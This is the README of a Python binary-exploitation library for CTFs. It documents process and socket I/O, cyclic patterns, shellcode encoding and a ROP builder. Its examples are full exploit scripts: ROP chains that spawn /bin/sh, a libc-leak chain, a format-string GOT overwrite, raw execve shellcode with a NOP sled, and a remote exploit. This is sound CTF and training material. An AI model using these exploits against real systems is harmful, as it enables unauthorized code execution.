

<div align="center">
  
  <br>
  <h1>pwnlib_8448</h1>
  <p><strong>Lightweight Python Library for Binary Exploitation, CTFs, and Exploit Development</strong></p>

  [](https://python.org)
  [](LICENSE)
  []()
 
  [](https://github.com/Narkielz/pwnlib_8448)

  <p>
    <a href="#-installation">Installation</a> •
    <a href="#-quick-start">Quick Start</a> •
    <a href="#-documentation">Documentation</a> •
    <a href="#-examples">Examples</a> •
    <a href="#-api-reference">API</a>
  </p>
</div>

---

## 📋 Table of Contents

- [Features](#-features)
- [Installation](#-installation)
- [Quick Start](#-quick-start)
- [Logging System](#-logging-system)
- [Packing / Unpacking](#-packing--unpacking)
- [Cyclic Patterns](#-cyclic-patterns)
- [Hexdump](#-hexdump)
- [Shellcode Encoding](#-shellcode-encoding)
- [Process (Local)](#-process-local)
- [Remote (Network)](#-remote-network)
- [ROP Chain Builder](#-rop-chain-builder)
- [Crash Detection](#-crash-detection)
- [Complete Examples](#-complete-examples)
- [API Reference](#-api-reference)
- [Common Bad Bytes](#-common-bad-bytes)
- [Troubleshooting](#-troubleshooting)
- [Contributing](#-contributing)
- [Connect](#-connect)

---

## ✨ Features

| Feature | Description |
|---------|-------------|
| 🖥️ **Process Management** | Spawn and interact with local binaries |
| 🌐 **Remote Connections** | TCP socket communication for network services |
| 🔐 **Shellcode Encoding** | Automatic bad byte avoidance with architecture decoders |
| 🧩 **ROP Chain Builder** | Build ROP chains for x86, x64, and ARM64 |
| 📊 **Pattern Generation** | Cyclic patterns for offset calculation |
| 🎨 **Colored Logging** | Timestamped, color-coded debug output |
| 💥 **Crash Detection** | Automatic signal detection and analysis |
| 🔄 **Multi-Architecture** | x86, x64, ARM64 support |
| 🚀 **Zero Dependencies** | Pure Python, no external packages |

---

## 📦 Installation

#### From GitHub (recommended)

```bash
pip install git+https://github.com/Narkielz/pwnlib_8448.git
```

#### From GitLab (fallback)

```bash
pip install git+https://gitlab.com/Narkiel/pwnlib_8448.git
```

#### Local development

```bash
git clone https://github.com/Narkielz/pwnlib_8448.git
cd pwnlib_8448
pip install -e .
```

#### Verify Installation

```python
python -c "from pwnlib_8448 import Process; print('✅ pwnlib_8448 installed successfully!')"
```

---

## 🚀 Quick Start

Get started with a simple buffer overflow exploit using ROP:

```python
from pwnlib_8448 import Process, ROP, log_success

# Build ROP chain
rop = ROP("./vuln", arch="amd64")
rop.pop("rdi", 0x7ffff7f70a4b)  # address of "/bin/sh"
rop.call(0x7ffff7e3c6a0)         # system() address

# Create payload with offset
payload = rop.build(offset=72)

# Send exploit
p = Process("./vuln")
p.sendline(payload)
log_success("Shell obtained!")
p.interactive()
```

---
## 🎨 Logging System

The logging system provides colored, timestamped output for debugging and monitoring.

### Functions

| Function | Color | Symbol | Description |
|----------|-------|--------|-------------|
| `log_info()` | Blue | ● | Informational messages |
| `log_ok()` | Green | ✓ | Success messages |
| `log_success()` | Green | ✓ | Alias for `log_ok()` |
| `log_warn()` | Yellow | ⚠ | Warning messages |
| `log_error()` | Red | ✗ | Error messages |
| `log_debug()` | Gray | ◆ | Debug messages (requires `set_debug(True)`) |
| `set_debug()` | - | - | Enable/disable debug logging |

### Example Output

```python
from pwnlib_8448 import set_debug, log_info, log_ok, log_warn, log_error

set_debug(True)

log_info("Starting exploit")
log_ok("Connection established")
log_warn("Bad byte detected")
log_error("Exploit failed")
```

### Example Output:

```bash
[00:00.01] ● Starting exploit
[00:00.02] ✓ Connection established
[00:00.03] ⚠ Bad byte detected
[00:00.04] ✗ Exploit failed
```

### Send/Receive Logging

When sending or receiving data, the library automatically logs hex and ASCII representation:

```python
p.send(b"Hello\x00World")
data = p.recv(32)
```

Output:

```bash
[00:00.05] ▶ 48 65 6c 6c 6f 00 57 6f 72 6c 64  |Hello.World|
[00:00.06] ◀ 48 65 6c 6c 6f 00 57 6f 72 6c 64  |Hello.World|
```

---

## 📦 Packing / Unpacking

Convert integers to bytes and vice versa (little-endian format).

| Function | Size | Description | Example |
|----------|------|-------------|---------|
| `p8(x)` / `u8(x)` | 1 byte | 8-bit integer | `p8(0x41) → b'A'` |
| `p16(x)` / `u16(x)` | 2 bytes | 16-bit integer | `p16(0x4142) → b'BA'` |
| `p32(x)` / `u32(x)` | 4 bytes | 32-bit integer | `p32(0xdeadbeef) → b'\xef\xbe\xad\xde'` |
| `p64(x)` / `u64(x)` | 8 bytes | 64-bit integer | `p64(0x4142434445464748) → b'HGFEDCBA'` |

### Examples

```python
from pwnlib_8448 import p32, p64, u32, u64

# Pack 32-bit address (little-endian)
addr = 0xdeadbeef
packed = p32(addr)  # b'\xef\xbe\xad\xde'

# Pack 64-bit address
addr64 = 0x7fffffff0000
packed64 = p64(addr64)  # b'\x00\x00\xff\xff\xff\x7f\x00\x00'

# Unpack
original = u32(packed)  # 0xdeadbeef
```

---

## 🔁 Cyclic Patterns

Generate cyclic patterns to find buffer overflow offsets and locate crash values.

### Functions

| Function | Description |
|----------|-------------|
| `pattern_create(size)` | Generate cyclic pattern of specified size |
| `pattern_offset(value, arch=64, size=10000)` | Find offset of a value in the cyclic pattern |

### Examples

```python
from pwnlib_8448 import pattern_create, pattern_offset

# Create 500-byte cyclic pattern
pattern = pattern_create(500)
print(pattern[:32])  # b'aaaabaaacaaadaaaeaaafaaagaaahaaa'

# Find offset from crash value (e.g., EIP = 0x6161616c)
offset = pattern_offset(0x6161616c, arch=64)
print(f"Offset: {offset} bytes")  # Usually 40 for x86, 72 for x64

# For 32-bit architecture
offset_32 = pattern_offset(0x6161616c, arch=32)
```

---

### 🛡️ Hexdump

Visualize binary data with hex and ASCII representation.

#### Function

```python
hexdump(data: bytes, cols: int = 16, simple: bool = False) -> str
```

#### Examples

```python
from pwnlib_8448 import hexdump

data = b"Hello\x00World\x0a\x0d\x90\xcc\xff\xde\xad\xbe\xef"
print(hexdump(data))
```

#### Output:

```bash
00000000  48 65 6c 6c 6f 00 57 6f  72 6c 64 0a 0d 90 cc ff  |Hello.World.....|
00000010  de ad be ef                                       |....|
```

#### Simple mode (first 32 bytes):

```python
print(hexdump(data, simple=True))
# 48 65 6c 6c 6f 00 57 6f 72 6c 64 0a 0d 90 cc ff  |Hello.World.....|
```

---

## 🔐 Shellcode Encoding

Encode shellcode to avoid bad bytes using XOR, ADD, or SUB encoding with architecture-specific decoders.

### Function

| Parameter | Type | Description |
|-----------|------|-------------|
| `shellcode` | bytes | Raw shellcode to encode |
| `arch` | str | Architecture: `"amd64"`, `"x86"`, `"arm64"` |
| `os_type` | str | Operating system: `"linux"`, `"windows"` |
| `bad_bytes` | List[int] | Bytes to avoid (e.g., `[0x00, 0x0a]`) |
| `fallback` | bool | Return partial encoding if perfect not found |

### Return Values

| Field | Type | Description |
|-------|------|-------------|
| `encoded` | bytes | Encoded shellcode + decoder |
| `status` | str | `"perfect"`, `"partial"`, or `"failed"` |
| `message` | str | Description of encoding result |

### Supported Architectures

| Architecture | Linux | Windows |
|--------------|-------|---------|
| amd64 (x64) | ✓ | ✓ |
| x86 (32-bit) | ✓ | ✓ |
| arm64 | ✓ | ✗ |

### Example

```python
from pwnlib_8448 import encode_shellcode

# Simple shellcode
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"

# Encode for x64 Linux avoiding null bytes
encoded, status, msg = encode_shellcode(
    shellcode,
    arch="amd64",
    os="linux",
    bad_bytes=[0x00, 0x0a, 0x0d]
)

print(f"Status: {status}")  # perfect, partial, or failed
print(f"Message: {msg}")
print(f"Encoded size: {len(encoded)} bytes")
print(f"Original size: {len(shellcode)} bytes")
```

## Common bad bytes lists:

```python
BAD_NULL = [0x00]                    # Null bytes
BAD_NEWLINE = [0x00, 0x0a]           # Null + newline
BAD_CTF = [0x00, 0x0a, 0x0d, 0x20]  # Common CTF restrictions
BAD_SPACE = [0x00, 0x20, 0x09, 0x0a, 0x0d]  # Space and control chars
```

---

## 🖥️ Process (Local)

Manage and interact with local processes. Spawn binaries, send input, receive output, and debug crashes.

### Class Methods

| Method | Description |
|--------|-------------|
| `Process(argv, debug=False)` | Start local process with optional debug output |
| `recv(n=4096, timeout=None)` | Receive up to `n` bytes from process |
| `recvline(keepends=False, timeout=None)` | Receive one line (stops at `\n`) |
| `recvuntil(delim, timeout=None)` | Receive data until delimiter is found |
| `recvlines(n, keepends=False, timeout=None)` | Receive exactly `n` lines |
| `send(data)` | Send raw bytes to process |
| `sendline(data)` | Send data with newline (`\n`) appended |
| `interactive()` | Enter manual interaction mode (stdin ↔ process) |
| `debug_crash(payload, timeout=2)` | Test payload for crashes, return crash info |
| `close()` | Terminate the process |
| `is_alive()` | Check if process is still running |

---

### Examples

#### Basic Interaction

```python
from pwnlib_8448 import Process

# Start binary with debug output
p = Process("./vuln", debug=True)

# Send input
p.sendline(b"test input")

# Receive response
response = p.recvline()
print(f"Received: {response}")

# Enter interactive mode
p.interactive()

# Clean up
p.close()
```

Buffer overflow:

```python
from pwnlib_8448 import Process, p64

p = Process("./vuln")

offset = 72
ret_addr = 0x7fffffffde48

payload = b"A" * offset + p64(ret_addr)
p.sendline(payload)
p.interactive()
```

With context manager (auto-closes):

```python
with Process("./vuln") as p:
    p.sendline(b"exploit")
    result = p.recvline()
```

---
## 🌐 Remote (Network)

Connect to and interact with remote services over TCP.

### Class Methods

| Method | Description |
|--------|-------------|
| `Remote(host, port, debug=False, timeout=5)` | Connect to remote service |
| `recv(n=4096, timeout=None)` | Receive up to `n` bytes |
| `recvline(keepends=False, timeout=None)` | Receive one line (stops at `\n`) |
| `recvuntil(delim, timeout=None)` | Receive data until delimiter is found |
| `recvlines(n, keepends=False, timeout=None)` | Receive exactly `n` lines |
| `send(data)` | Send raw bytes |
| `sendline(data)` | Send data with newline (`\n`) appended |
| `interactive()` | Enter manual interaction mode (stdin ↔ socket) |
| `close()` | Close the connection |

### Examples

#### Basic connection:

```python
from pwnlib_8448 import Remote

r = Remote("ctf.example.com", 1337, debug=True)

# Receive banner
banner = r.recvline()
print(f"Banner: {banner}")

# Send exploit
r.sendline(b"admin\npassword123")

# Get flag
flag = r.recvuntil(b"}")
print(f"Flag: {flag}")

r.interactive()
```

### Timeout handling:

```python
r = Remote("target.com", 4444, timeout=10)
try:
    data = r.recvuntil(b"flag", timeout=5)
except TimeoutError:
    print("Timeout waiting for flag")
```

---

# 🧩 ROP Chain Builder

Build Return-Oriented Programming chains for bypassing NX protections.

### Class Methods

| Method | Description |
|--------|-------------|
| `ROP(binary=None, arch="amd64", debug=False)` | Initialize ROP builder |
| `pop(register, value)` | Add pop {register}; ret gadget |
| `call(function, args=None)` | Add function call |
| `syscall(nr, args=None)` | Add syscall |
| `ret(value=None)` | Add return instruction |
| `padding(size, value=0)` | Add padding bytes |
| `build(offset=None)` | Build ROP chain |
| `show()` | Display current chain |
| `clear()` | Clear the chain |
| `save(filename)` | Save chain to file |
| `find_gadget(pattern)` | Find gadget by pattern |

### Supported Architectures

| Architecture | Registers | Pointer Size |
|--------------|-----------|--------------|
| amd64 (x64) | rdi, rsi, rdx, rcx, r8, r9, rax, rbx, rbp | 8 bytes |
| x86 (32-bit) | eax, ebx, ecx, edx, esi, edi, ebp | 4 bytes |
| arm64 | x0, x1, x2, x3, x4, x5, x6, x7, x8, x9, x10, x11 | 8 bytes |

## Examples

### Basic ROP chain for x64:

```python
from pwnlib_8448 import ROP, Process

# Initialize ROP builder
rop = ROP("./vuln", arch="amd64")

# Build chain: pop rdi; ret; /bin/sh; system()
rop.pop("rdi", 0x7ffff7f70a4b)  # address of "/bin/sh"
rop.call(0x7ffff7e3c6a0)         # system() address

# Build payload with offset
payload = rop.build(offset=72)

# Send exploit
p = Process("./vuln")
p.sendline(payload)
p.interactive()
```

### Syscall ROP chain:

```python
rop = ROP("./vuln", arch="amd64")

# execve("/bin/sh", NULL, NULL) - syscall 59
rop.syscall(59, [0x7ffff7f70a4b, 0, 0])

payload = rop.build(offset=72)
```

### Multi-stage ROP with leak:

```python
# Stage 1: Leak libc address
rop1 = ROP("./vuln", arch="amd64")
rop1.pop("rdi", 0x601018)  # puts@GOT
rop1.call(0x4005f0)         # puts@PLT
rop1.ret()                  # Return to start

# Send leak payload
p = Process("./vuln")
p.sendline(rop1.build(offset=72))
leaked = u64(p.recv(8))     # Read leaked address

# Calculate libc base
libc_base = leaked - 0x1dac90  # offset for puts
system = libc_base + 0x48e40
bin_sh = libc_base + 0x18a143

# Stage 2: Get shell
rop2 = ROP("./vuln", arch="amd64")
rop2.pop("rdi", bin_sh)
rop2.call(system)

p.sendline(rop2.build(offset=72))
p.interactive()
```

---

## 💥 Crash Detection - Signal Table

The `debug_crash()` method returns detailed information about process crashes.

### Signal Table

| Exit Code | Signal | Name | Description |
|-----------|--------|------|-------------|
| -11 | 11 | SIGSEGV | Segmentation Fault - Invalid memory access |
| -10 | 10 | SIGBUS | Bus Error - Misaligned memory access |
| -6 | 6 | SIGABRT | Aborted - Process aborted (assert() or abort()) |
| -4 | 4 | SIGILL | Illegal Instruction - Invalid CPU instruction |
| -8 | 8 | SIGFPE | Floating Point Exception - Division by zero |
| -5 | 5 | SIGTRAP | Trace/Breakpoint Trap - Debugger breakpoint |
| -2 | 2 | SIGINT | Interrupt - Ctrl+C pressed |
| -3 | 3 | SIGQUIT | Quit - Ctrl+\ pressed |
| -9 | 9 | SIGKILL | Killed - Forcefully terminated |
| -15 | 15 | SIGTERM | Terminated - Graceful termination |
| -1 | 1 | SIGHUP | Hangup - Terminal disconnected |

### Return Dictionary

```python
{
    "crashed": True/False,      # Whether crash occurred
    "signal": 11,               # Signal number (if crashed)
    "signal_name": "SIGSEGV",   # Signal name (if crashed)
    "exit_code": -11,           # Process exit code
    "address": "0x41414141"     # Crash address (if found in output)
}
```

### Example Usage

```python
from pwnlib_8448 import Process

p = Process("./vuln")

# Test increasing payload sizes
for size in range(10, 200, 10):
    payload = b"A" * size
    crash = p.debug_crash(payload, timeout=1)

    if crash["crashed"]:
        print(f"Crash at {size} bytes!")
        print(f"Signal: {crash['signal_name']}")
        print(f"Address: {crash.get('address', 'N/A')}")
        break
```

---

## 💣 Complete Examples

### 1. Buffer Overflow with ROP

```python
#!/usr/bin/env python3
from pwnlib_8448 import Process, ROP, log_info, log_ok, set_debug

set_debug(True)

# Offset found with pattern_create
offset = 72

# ROP gadgets (found with ROPgadget)
POP_RDI = 0x4006a3
SYSTEM = 0x7ffff7e3c6a0
BIN_SH = 0x7ffff7f70a4b

# Build ROP chain
rop = ROP("./vuln", arch="amd64")
rop.pop("rdi", BIN_SH)
rop.call(SYSTEM)

# Create payload
payload = rop.build(offset=offset)
log_info(f"Payload size: {len(payload)} bytes")

# Send exploit
p = Process("./vuln")
p.sendline(payload)
log_ok("Exploit sent!")
p.interactive()
```

### 2. Format String Exploit

```python
from pwnlib_8448 import Process, p32, log_info

p = Process("./format_vuln")

# Find offset
for i in range(1, 15):
    payload = f"%{i}$p".encode()
    p.sendline(payload)
    leak = p.recvline()
    log_info(f"Offset {i}: {leak}")

# Write to GOT entry
got_entry = 0x804c00c
payload = p32(got_entry) + b"%134517811x%7$n"
p.sendline(payload)
p.interactive()
```

### 3. Shellcode Injection

```python
from pwnlib_8448 import Process, encode_shellcode, hexdump

# x86 shellcode for /bin/sh
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Encode to avoid bad bytes
encoded, status, msg = encode_shellcode(
    shellcode,
    arch="x86",
    os="linux",
    bad_bytes=[0x00, 0x0a, 0x0d]
)

print(f"Status: {status}")
print(f"Message: {msg}")

# NOP sled + encoded shellcode
payload = b"\x90" * 64 + encoded

p = Process("./vuln")
p.sendline(payload)
p.interactive()
```

#### 4. Multi-stage Remote Exploit

```python
from pwnlib_8448 import Remote, u64, p64, log_info

r = Remote("target.com", 1337)

# Stage 1: Leak libc
r.recvuntil(b"Input: ")
r.sendline(b"%15$p")
leak = r.recvline()
libc_leak = int(leak, 16)

log_info(f"Libc leak: 0x{libc_leak:x}")

# Calculate addresses
libc_base = libc_leak - 0x1dac90
system = libc_base + 0x48e40
bin_sh = libc_base + 0x18a143
pop_rdi = libc_base + 0x23b6a

# Stage 2: Build ROP
payload = p64(pop_rdi) + p64(bin_sh) + p64(system)

# Stage 3: Overflow
r.sendline(b"A" * 72 + payload)
r.interactive()
```

---

## 📚 API Reference

### Core Functions

| Function | Description |
|----------|-------------|
| `set_debug(enabled)` | Enable/disable debug logging |
| `hexdump(data, cols=16, simple=False)` | Display hex and ASCII representation |
| `pattern_create(size)` | Generate cyclic pattern for offset finding |
| `pattern_offset(value, size=10000, arch=64)` | Find offset of a value in cyclic pattern |
| `encode_shellcode(sc, arch, os, bad_bytes)` | Encode shellcode to avoid bad bytes |
| `clean_ansi(data)` | Remove ANSI escape codes from data |

---

### Process Class

| Method | Description |
|--------|-------------|
| `Process(argv, debug=False)` | Start local process |
| `recv(n=4096, timeout=None)` | Receive n bytes |
| `recvline(keepends=False, timeout=None)` | Receive one line |
| `recvuntil(delim, timeout=None)` | Receive until delimiter |
| `recvlines(n, keepends=False, timeout=None)` | Receive n lines |
| `send(data)` | Send raw data |
| `sendline(data)` | Send data with newline |
| `interactive()` | Manual interaction mode |
| `debug_crash(payload, timeout=2)` | Test for crashes |
| `close()` | Terminate process |

---

### Remote Class

| Method | Description |
|--------|-------------|
| `Remote(host, port, debug=False, timeout=5)` | Connect to remote service |
| `recv(n=4096, timeout=None)` | Receive n bytes |
| `recvline(keepends=False, timeout=None)` | Receive one line |
| `recvuntil(delim, timeout=None)` | Receive until delimiter |
| `recvlines(n, keepends=False, timeout=None)` | Receive n lines |
| `send(data)` | Send raw data |
| `sendline(data)` | Send data with newline |
| `interactive()` | Manual interaction mode |
| `close()` | Close connection |

---

### ROP Class

| Method | Description |
|--------|-------------|
| `ROP(binary=None, arch="amd64", debug=False)` | Initialize ROP builder |
| `pop(register, value)` | Add pop {register}; ret gadget |
| `call(function, args=None)` | Add function call |
| `syscall(nr, args=None)` | Add syscall |
| `ret(value=None)` | Add return instruction |
| `padding(size, value=0)` | Add padding bytes |
| `build(offset=None)` | Build ROP chain |
| `show()` | Display current chain |
| `clear()` | Clear the chain |
| `save(filename)` | Save chain to file |
| `find_gadget(pattern)` | Find gadget by pattern |

---

### Packing Functions

| Function | Size | Description |
|----------|------|-------------|
| `p8(x)` / `u8(x)` | 1 byte | 8-bit integer |
| `p16(x)` / `u16(x)` | 2 bytes | 16-bit integer |
| `p32(x)` / `u32(x)` | 4 bytes | 32-bit integer |
| `p64(x)` / `u64(x)` | 8 bytes | 64-bit integer |

---

### Logging Functions

| Function | Color | Description |
|----------|-------|-------------|
| `log_info(msg)` | Blue | Informational messages |
| `log_ok(msg)` | Green | Success messages |
| `log_warn(msg)` | Yellow | Warning messages |
| `log_error(msg)` | Red | Error messages |
| `log_debug(msg)` | Gray | Debug messages (requires `set_debug(True)`) |

---

### ⚠️ Common Bad Bytes

```python
# Null bytes only
BAD_NULL = [0x00]

# Null + newline
BAD_NEWLINE = [0x00, 0x0a]

# Common CTF restrictions
BAD_CTF = [0x00, 0x0a, 0x0d, 0x20, 0x09]

# Space and control chars
BAD_SPACE = [0x00, 0x20, 0x09, 0x0a, 0x0d]
```

---

## 🔧 Troubleshooting

Common issues and their solutions when using pwnlib_8448.

| Problem | Solution | Example |
|---------|----------|---------|
| **Binary not found** | Use absolute path to the binary | `Process("/home/user/vuln")` instead of `Process("./vuln")` |
| **Connection refused** | Verify host/port are correct and service is running | `Remote("127.0.0.1", 1337)` - check with `netstat -tlnp` |
| **Encoding fails** | Try different architecture or reduce bad bytes list | `encode_shellcode(sc, "x86", bad_bytes=[0x00])` |
| **No output** | Enable debug mode to see all activity | `set_debug(True)` before operations |
| **Segmentation fault** | Verify offset and return address are correct | Check with `pattern_create` and GDB |
| **Timeout errors** | Increase timeout for slow services | `recvuntil(b"flag", timeout=10)` |
| **Wrong offset** | Use pattern creation to find exact offset | `offset = pattern_offset(0x6161616c)` |
| **Shell not spawning** | Check shellcode for bad bytes | Encode shellcode: `encode_shellcode(sc, bad_bytes=[0x00, 0x0a])` |
| **ASLR issues** | Disable ASLR for local testing | `echo 0 \| sudo tee /proc/sys/kernel/randomize_va_space` |
| **Stack canary detected** | Find canary leak or use different attack | Format string leak or brute force canary |
| **NX bit enabled** | Use ROP instead of shellcode injection | `ROP("./vuln").call(system, ["/bin/sh"])` |
| **PIE enabled** | Leak base address first | Use format string or other info leak |
| **Process hangs** | Add timeout or check for deadlocks | `recvuntil(b"\n", timeout=5)` |
| **Bad bytes in ROP** | Use different gadgets or encode | Find gadgets without bad bytes |

---

## 「📡」 Connect

[](https://github.com/Narkielz)
[](https://twitter.com/narkiel_8448)
[](https://youtube.com/@narkielz_8448)
[](https://gitlab.com/narkiel)
[](mailto:narkiel.8448@gmail.com)

---

### 📄 License

MIT License 

---

<div align="center">
  <p><strong>Happy Hacking! 🚀</strong></p>
</div>

---
